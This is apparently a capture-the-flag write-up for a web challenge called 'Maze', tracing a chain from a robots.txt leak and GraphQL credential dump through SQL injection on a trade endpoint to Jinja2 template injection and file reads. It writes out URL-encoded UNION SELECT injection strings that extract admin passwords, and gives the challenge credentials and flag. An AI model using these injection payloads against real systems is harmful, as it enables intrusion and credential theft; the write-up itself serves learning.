 https://ctfd.offshift.io/

Challenge: Web->Maze

```
maze corparate just started a new trading platform, let's hope its secure because I got all my funds over there
http://45.134.3.200:9000/
```

We are given a Web to hack. At first we have a login page. 

<img src="image-20210126172451831.png" alt="image-20210126172451831" style="zoom: 33%;" />

After trying some common combinations nothing happens, so looking the requests around in burp we can't see anything strange.

We tried robots.txt and it has some content inside

```
/sup3r_secr37_@p1
```

We enter that path: `http://45.134.3.200:9000/sup3r_secr37_@p1`

<img src="image-20210126172539891.png" alt="image-20210126172539891" style="zoom:33%;" />

Luckily for us, this GUI can help us in going further searching through Graphql, because at the moment I know shit about that. So what to do here?

You can check the docs (button at top right) to know a bit more (or to start crying) or just put `{}` in the query and then, in between brackets, press 1.

![image-20210126184558256](image-20210126184558256.png)

This GUI will help and show some useful querys you can do. So for example, click `allTraders` and press "Play"

It will autocomplete and add some more items to the query and this result will be shown

<img src="image-20210126184716292.png" alt="image-20210126184716292" style="zoom: 67%;" />

So right there we have an aparently base64 encoded string, which decodes to `TraderObject:1`. That's not much.

If you press enter after id (in node) and press 1 again, will show some more options. 

<img src="image-20210126185037518.png" alt="image-20210126185037518" style="zoom:67%;" />

Add them all. After a while adding data, your query could look like this
![image-20210126191451290](image-20210126191451290.png)

You can see there is a username and a password (is not base64). We tried login with `pop_eax` and `iigvj3xMVuSI9GzXhJJWNeI`  as password. Didn't work as espected so we tried XFT as username, and we are in.

We have some kind of admin panel (is it?) that looks like this

<img src="image-20210126191802179.png" alt="image-20210126191802179" style="zoom: 67%;" />

There is a Trade endpoint, if you check for SQLi like `trade?coin=eth%27` ( 27==' ), you get a 500 error (db engine tried to run the query and it breaks), and if you add -- (comments all what comes next in the query) you get the same page as trade?coin=eth. So it seems there is a SQL injection vulnerability there.

Gradually increasing our knowledge of the query with multiple test string like this:

`/trade?coin=eth%27%20or%20false--` returns the same result

`/trade?coin=eth%27%20or%20true--` returns other coin (XFT)

`/trade?coin=eth%27%20or%20true%20order%20by%201--` returns BTC, we ordered results by the first column (1)

`/trade?coin=eth%27%20or%20true%20order%20by%202--` returns XFT, we ordered results by the second column (2)

`/trade?coin=eth%27%20or%20true%20order%20by%203--` we ordered results by the third column (3), returns error 500, so there must be only 2 columns in current table

`/trade?coin=eth%27%20union%20select%20%271%27,%272%27--` we try to show constant values like 1 or 2

![image-20210126195219433](image-20210126195219433.png)

So how about showing other database fields from same and other tables?

`/trade?coin=eth%27+UNION+SELECT%20title,body+from+coins--` so there is a title and body fields in the table

![image-20210126195453309](image-20210126195453309.png)

We managed to find there is a coins and admin table (and maybe there are others). So by running `/trade?coin=eth%27+UNION+SELECT%20username,password+from+admin--` we get a password.

![image-20210126195558012](image-20210126195558012.png)

We go again to the admin section (top menu at the right) and with username `admin` and password `p0To3zTQuvFDzjhO9` we got intoanother panel

This is a real Maze.

<img src="image-20210126195707580.png" alt="image-20210126195707580" style="zoom:50%;" />

What to do here? Look at the source code.

![image-20210126195802389](image-20210126195802389.png)

There are 2 scripts, a css and a javascript variable "name" with value "skid". Looking at scripts.js we can se that global variable name is acceded and appended to the message that was animated

![image-20210126195956112](image-20210126195956112.png)

Looking at the request we saw a cookie was set with value skid.

![image-20210126200138315](image-20210126200138315.png)

So we change the cookie value to `fernetInjection` to see what happens (send the request to repeater, change value and press send)

![image-20210126200602473](image-20210126200602473.png)

The string we put in cookie name's value is set as value of javascript's variable name. 

We saw that appending `{{}}` to the name returns a 500 error. So, what about template injection then? The best way to confirm there is a template injection vulnerability is to enter math like `{{4*4}}` so when its rendered, the render engine does 4*4=16, so it returns 16.

![16](16.png)

It seems like the engine takes the value from the cookie and renders it without any validations.

With the help of this image we managed to discover what template engine is used

![image-20210126201353164](image-20210126201353164.png)

We looked for the worst thing that could happen now: RCE through template injection. 

Googling "jinja2 rce" we found a beautiful blog: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

We tried some payloads and they were successful:

This one tries to read /etc/passwd

![image-20210126201959315](image-20210126201959315.png)



So flag must be in flag.txt somewere.

![image-20210126202155078](image-20210126202155078.png)



Thats the end!



#### Flag: flag{u_35c@p3d_7h3_m@z3_5ucc3ssfu77y9933}
